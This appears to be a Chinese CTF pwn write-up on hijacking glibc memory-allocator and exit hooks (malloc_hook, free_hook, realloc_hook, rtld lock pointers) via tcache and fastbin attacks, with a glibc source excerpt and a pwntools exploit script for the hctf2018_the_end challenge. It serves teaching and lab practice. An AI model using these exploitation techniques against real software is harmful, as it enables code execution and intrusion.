 Hook劫持
======

总结一下pwn时劫持通过劫持各种hook从而劫持程序控制流的技巧.

动态内存管理家族的hook函数
===============

GNU C允许开发者修改 malloc , realloc 和 free 的hook函数以修改他们的功能,其本意是帮助开发者  
debug. 这给我们提供了方便的攻击办法.

运行 malloc 时,如果 malloc\_hook 值不会0,程序便会先执行 malloc\_hook 所指向的函数. 因此我们可以将  
one\_gadget写入 &amp;malloc\_hook

定位指令: p &amp;\_\_free\_hook , p &amp;\_\_malloc\_hook

tcache attack
-------------

tcache attack劫持这些hook时没有验证需要绕过, 直接将next指针覆盖为 &amp;malloc\_hook 即可 (next指针指  
向chunk的user空间).

fastbin attack
--------------

利用fastbin attack劫持这些Hook函数时稍微麻烦一点,需要绕过对于chunk头的验证.

1.劫持 malloc\_hook : fd改为 &amp;malloc\_hook-0x23 (此处值为0x71)可绕过验证  
2.&amp;free\_hook 上方则都是0字节,无法直接通过fastbin attack劫持.

system("/bin/sh")
-----------------

可以将 free\_hook 劫持到 system , 再free一个内容为 /bin/sh\\x00 的chunk,即可调用 system("/bin/sh")

栈调整以使用one\_gadget
-----------------

有些情况下one\_gadget因为环境原因全部都不可用,这时可以通过 realloc\_hook 来调整堆栈环境使  
one gadget可用.  
realloc函数在函数起始会检查 realloc\_hook 的值是否为0,不为0则跳转至 realloc\_hook 指向的函数.  
realloc\_hook 同 malloc\_hook 相邻,故可通过fastbin attack或其他attack, 一次性修改两个值.  
具体利用: 将 realloc\_hook 设置为one gadget,将 malloc\_hook 设置为realloc函数开头某个push寄存  
器的指令处.push和pop的次数是一致的，若push次数减少则会压低堆栈,改变栈环境.  
要将 malloc\_hook 具体改成realloc+几的偏移? 在解题时挨个试,或者脚本爆就可以了.

exit hook (\_\_rtld\_lock\_unlock\_recursive) 劫持
------------------------------------------------

可以通过更改指向 rtld\_lock\_unlock\_recursive (或 rtld\_lock\_lock\_recursive )函数的指针,在退出时劫  
持程序.  
1.定位方法:p rtld\_lock\_default\_unlock\_recursive 得到地址 a  
search -8 a 得到指向该地址的地址.  
2.计算偏移,需注意该函数其实在ld中.  
3.以下是 glibc/elf/dl-fini.c 中的部分相关源码

```php
void
_dl_fini (void)
{
/* Lots of fun ahead. We have to call the destructors for all still
loaded objects, in all namespaces. The problem is that the ELF
specification now demands that dependencies between the modules
are taken into account. I.e., the destructor for a module is
called before the ones for any of its dependencies.
To make things more complicated, we cannot simply use the reverse
order of the constructors. Since the user might have loaded objects
using `dlopen' there are possibly several other modules with its
dependencies to be taken into account. Therefore we have to start
determining the order of the modules once again from the beginning. */
/* We run the destructors of the main namespaces last. As for the
other namespaces, we pick run the destructors in them in reverse
order of the namespace ID. */
#ifdef SHARED
int do_audit = 0;
again:
#endif
for (Lmid_t ns = GL(dl_nns) - 1; ns >= 0; --ns)
{
/* Protect against concurrent loads and unloads. */
__rtld_lock_lock_recursive (GL(dl_load_lock));
unsigned int nloaded = GL(dl_ns)[ns]._ns_nloaded;
/* No need to do anything for empty namespaces or those used for
auditing DSOs. */
if (nloaded == 0
#ifdef SHARED
|| GL(dl_ns)[ns]._ns_loaded->l_auditing != do_audit
#endif
)
__rtld_lock_unlock_recursive (GL(dl_load_lock));
else
{
/* Now we can allocate an array to hold all the pointers and
copy the pointers in. */
struct link_map *maps[nloaded];
unsigned int i;
struct link_map *l;
assert (nloaded != 0 || GL(dl_ns)[ns]._ns_loaded == NULL);
for (l = GL(dl_ns)[ns]._ns_loaded, i = 0; l != NULL; l = l->l_next)
/* Do not handle ld.so in secondary namespaces. */
if (l == l->l_real)
{
assert (i < nloaded);
maps[i] = l;
l->l_idx = i;
++i;
/* Bump l_direct_opencount of all objects so that they
are not dlclose()ed from underneath us. */
++l->l_direct_opencount;
}
assert (ns != LM_ID_BASE || i == nloaded);
assert (ns == LM_ID_BASE || i == nloaded || i == nloaded - 1);
unsigned int nmaps = i;
/* Now we have to do the sorting. We can skip looking for the
binary itself which is at the front of the search list for
the main namespace. */
_dl_sort_maps (maps + (ns == LM_ID_BASE), nmaps - (ns == LM_ID_BASE),
NULL, true);
/* We do not rely on the linked list of loaded object anymore
from this point on. We have our own list here (maps). The
various members of this list cannot vanish since the open
count is too high and will be decremented in this loop. So
we release the lock so that some code which might be called
from a destructor can directly or indirectly access the
lock. */
__rtld_lock_unlock_recursive (GL(dl_load_lock));
```

例题: hctf2018\_the\_end
----------------------

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f37ba8be18b83bb34233b493b1a5b5964ed8500d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f37ba8be18b83bb34233b493b1a5b5964ed8500d.png)  
题目本身非常简单,因此选择它来说明这种利用方法:  
1.libc白给  
2.一字节任意地址写五次

这里选择更改指向 rtld\_lock\_unlock\_recursive 的指针内容,动态调试定位到其偏移后,向这个指针的地址  
写上one gadget.

```php
from pwn import *
import sys
if len(sys.argv) >1 and sys.argv[1] == 'r':
    target = remote("node4.buuoj.cn",port)
else:
    #target = process("")
    target=process("./the_end",env={"LD_PRELOAD":"./libc-2.27.so"})
if(len(sys.argv)>1) and sys.argv[1]=='g':
    gdb.attach(target)

context.log_level='debug'
#context.update(arch='')
#gdb.attach(target)

libc = ELF("./libc-2.27.so")

def pwn():
    #get libc
    target.recvuntil("gift ")
    sleep_libc = int(target.recvuntil(",",drop=True),16)
    libc_base = sleep_libc - libc.sym["sleep"]
    success("libc leaked: "+hex(libc_base))
    rtld_recur = libc_base+0x619f68
    success("rtld_recur: "+hex(rtld_recur))
    ogList = [0x4f2c5,0x4f322,0x10a38c]
    og= libc_base + ogList[1]
    target.recvuntil(";)\n")

    # hijack
    for i in range(5):
        target.send(p64(rtld_recur+i))
        target.send(p64(og)[i])
        target.interactive()
pwn()
```